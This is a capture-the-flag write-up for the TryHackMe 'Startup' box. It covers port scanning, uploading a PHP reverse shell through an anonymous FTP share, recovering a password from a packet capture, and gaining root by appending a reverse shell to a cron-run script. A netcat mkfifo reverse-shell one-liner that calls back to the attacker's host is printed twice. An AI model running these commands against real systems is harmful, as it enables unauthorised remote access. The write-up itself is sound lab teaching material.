Startup Writeup
TryHackMe - Startup
This is an easy box on TryHackMe that came out not that long ago. I haven’t done many ctfs recently (new job, crazy hours), and I just needed to get back into the swing of things. This box looked like the perfect place to start.
threader3000 scan
I scanned this box with threader3000 which is a multi-threaded port scanner that can save a ton of time on boxes where you suspect there’s a higher port open (unlikely on this box, but I like the tool). It can also run an nmap scan after finding the open ports. Here’s the output from the nmap scan:
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx 2 65534 65534 4096 Nov 09 02:12 ftp [NSE: writeable]
|_-rw-r--r-- 1 0 0 208 Nov 09 02:12 notice.txt
| ftp-syst:
| STAT:
| FTP server status:
| Connected to 10.13.1.218
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 42:67:c9:25:f8:04:62:85:4c:00:c0:95:95:62:97:cf (RSA)
| 256 dd:97:11:35:74:2c:dd:e3:c1:75:26:b1:df:eb:a4:82 (ECDSA)
|_ 256 27:72:6c:e1:2a:a5:5b:d2:6a:69:ca:f9:b9:82:2c:b9 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/
As you can see we have ports 21(ftp), 22(ssh), and 80(http) open. ftp is allowing anonymous login, which is always great for hackers.
ftp enumeration
Investigating the ftp service on port 21 (you can do this with the command ftp STARTUP-IP and then using the user name anonymous and leaving a blank password when prompted) gives us a couple of files that we can pull from the service with ‘get FILE_NAME’.

There’s a file called notice.txt that contains the following:
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY.
People downloading documents from our website will think we are a joke! Now I
dont know who it is, but Maya is looking pretty sus.
hmmm, there is the possible username Maya, but it also mentions people downloading documents from the website thinking the company is a joke, did they link the ftp fileshare to their website?
web enumeration
The webpage states it’s under development. The source code doesn’t give us any extra info either.

The next step is to run a gobuster scan to see if there’s any interesting directories on the website. The result of the gobuster scan is only one directory:
/files (Status: 301)
navigating to the /files directory gives us the follwing page:

initial access
They did indeed link the ftp file share to the webpage. If we can upload a file to the ftp directory, we can try and get a reverse shell. I’ll use the standard php-reverse-shell.php file that comes with both kali and parrotOS. We’ll need to change the IP and port in that file to that of our attacking machine. After that, we can set up a listener on our attacking machine and access the file through our browser to activate the malicious php script on our victim machine.
After changing the IP and port in the php script, we can navigate back to the ftp directory through the fileshare on the command line. We can upload the php reverse shell with the command put php-reverse-shell.php and we should get a message indicating the file uploaded properly.

Once we’ve got this shell uploaded, we need to setup a netcat listener on our attacking machine with the command nc -lvnp REV-SHELL-PORT. From there, it’s as simple as navigating back to the files in our browser and clicking on our file.


As you can see, this gives us an initial shell as www-data. We can’t access the user flag, but there is a user named lennie that we can try and move to.
user privilege escalation
Before I get into the user priv esc, I’d like to mention a great toolset that I use to stabilize my shells. It’s John Hammond’s poor-mans-pentest. This toolset is basic stuff, but worth at least a quick look. He and another ctf player, Caleb Stewart, have started development on a toolset called pwncat. I haven’t had the time to look at it, but I’ve seen a video of some of the functionality and it looks really impressive. Anyway, back to the box.
Poking around the file system, we see some irregularities in the root directory. There’s a few directories that don’t belong, but the most interesting is the one named incidents. Inside there’s a wireshark file that we can download onto our machine by spinning up a web server on our victim and using wget. Here’s the commands in action:

You can see that the top section is the web server, and that I misspelled the file the first time I tried downloading it… But that I did grab the file eventually.
Now we can investigate the wireshark file on our attacking machine. Firing it up we get a flood of network activity. This part reminded me of the overpass2 room. This room taught me how to do some basic wireshark navigation and what to look for. Perhaps the quickest way to find what we’re looking for is to find a packet that looks like reverse shell commands (reverse shells send data in cleartext), right click on it, and select the Follow -> TCP stream option. This gives us a nice view of what commands were being sent to the reverse shell.

We get a potential password out of the wireshark file. While this isn’t the root password that we’d like it to be, it is the password for user lennie. We can now grab the user flag.

root privilege escalation
This had me stumped for a little bit, but once you look under the hood of what processes are running, it’s straightforward and a good root escalation for a box like this. The first place to to look is in the scripts directory in lennie’s home folder.

The files in this directory are owned by root, so we won’t be able to edit them without the root password. But at the end of the planner.sh file we have the script run a program in the /etc/ folder called print.sh. Maybe we can change that one?

Yes! So the question is, how do we execute planner.sh as root in order to execute this file as root as well? In order to get a better look at the processes that happen on a linux box, we can use a script called pspy. We’ll use the 64bit version. We’ll upload this file to the /tmp folder via the same method we grabbed the wireshark file. We’ll spin up a web server with python, and wget the file on our victim machine. Running pspy for about a minute or two will give us the following output:

We can see that the system is running planner.sh as root every minute! This means we just have to append our malicious reverse shell to the /etc/print.sh file and wait with a listener on our attacking machine. I grabbed the following line from pentest monkey:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKING-IP PORT >/tmp/f
And in order to append it, we can use the >> redirect with the echo command:
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.1.218 1234 >/tmp/f" >> /etc/print.sh
And now we get root!

final thoughts
This was a great way to ease back into things. I liked the wireshark inclusion and the priv esc was pretty classic. I actually got stumped for a second, but I think it was because I had the wrong netcat reverse shell one-liner. Anyway, if you’ve read this far I appreciate it and remember to hack all the things.